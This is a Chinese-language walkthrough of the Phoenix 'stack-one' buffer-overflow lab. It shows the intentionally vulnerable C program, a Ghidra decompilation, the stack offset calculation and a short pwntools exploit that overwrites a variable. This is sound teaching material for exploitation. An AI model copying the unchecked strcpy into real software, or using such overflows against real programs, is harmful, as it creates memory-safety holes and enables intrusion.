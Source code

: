 # STACK ONE

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level can be found at /opt/phoenix/<architecture>/stack-one

**Hints**

- `man ascii` can tell you what the hexadecimal characters are.
- Having troubles? How does the [endianness](https://en.wikipedia.org/wiki/Endianness) of the architecture affect the layout of how variables are laid out?

### Source code

```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

官方页面内容

要求我们把 `changeme` 变量修改成指定值

关于栈溢出 变量覆盖 在 `stack-zero` 我已经有过比较详细的介绍

日常 黑盒审计

没有 IDA 可以用这两个

 NSA 的 Ghidra

主页：https://ghidra-sre.org/

或者 radare2 的 GUI 版 cutter（新版的自带 Ghidra 插件，可以使用 Ghidra 的反汇编）

主页：https://github.com/radareorg/cutter



我现在用 Ghidra

![image-20200428132503097](image-20200428132503097.png)

main 函数反汇编：

```c

void main(int param_1,long param_2)

{
  char local_58 [64];
  uint local_18;
  
  puts("Welcome to phoenix/stack-one, brought to you by https://exploit.education");
  if (param_1 < 2) {
    errx(1,"specify an argument, to be copied into the \"buffer\"");
  }
  local_18 = 0;
  strcpy(local_58,*(char **)(param_2 + 8));
  if (local_18 == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  }
  else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",(ulong)local_18);
  }
                      /* WARNING: Subroutine does not return */
  exit(0);
}

```

可以看到 挑战成功的条件是 

`local_18 == 0x496c5962`

看反编译窗口：

![image-20200428133024138](image-20200428133024138.png)

`local_18` 位于栈上 `rbp-0x18` 的位置

ok，找漏洞点

看到 main 函数的参数

![image-20200428133414611](image-20200428133414611.png)

按照常识，我们的` main` 函数原型应该是这样写的

```c
int main(int argc, char *argv[])
```

上面的第二个参数是个 `long` 我们手动修改一下

右键 -> Retype Variable 

改成  `char **`

把变量名也改一下

右键 -> Rename Variable 

![image-20200428134204584](image-20200428134204584.png)

=现在可以看到，修改后的

漏洞点就在

```c
strcpy(local_58,argv[1]);
```

从命令行参数获取输入，复制进 `local_58` ，注意 `strcpy` 是不会有长度限制的而  `local_58`  是一个 `char` 数组，理论上它可以容纳 `64` 个 `char`，但是有时候因为对齐的因素，分配给的空间要比指定值大  

看反编译窗口：

![image-20200428133024138](image-20200428133024138.png)

`local_58` 位于栈上 `rbp-0x0x58` 的位置

而我们要覆盖的 `local_18` 位于栈上 `rbp-0x18` 的位置

记住，栈是 `从高到低` 增长的，所以我们写入 `local_58` 是可以覆盖到  `local_18` 的

好了，现在我们知道他们两个相距  `0x58 - 0x18` 我们要填充 `0x40` Bytes 任意字符（我说的是 Bytes 不是字符数，因为汉字不是一个 Bytes ，填充 0x40 个汉字那就 GG 了） 才能覆盖到  `local_18` ，然后我们把  `local_18` 的期望值填上去，这里很重要的一是，我们不是填 `0x496c5962` 像是：`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA496c5962`，这样会把 `496c5962` 解析成字符串，我们用 pwntools 的 p64() 函数把 `0x496c5962` 打包成二进制数据

我现在演示一下

![image-20200428140117208](image-20200428140117208.png)

可以看到 A 后面并不是 0x496c5962

好了现在直接利用吧

exploit：

```python
from pwn import *
exp = "A" * 0x40
exp += p64(0x496c5962)
print(exp)
#AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbYlI
```

![image-20200428140411027](image-20200428140411027.png)

pwn !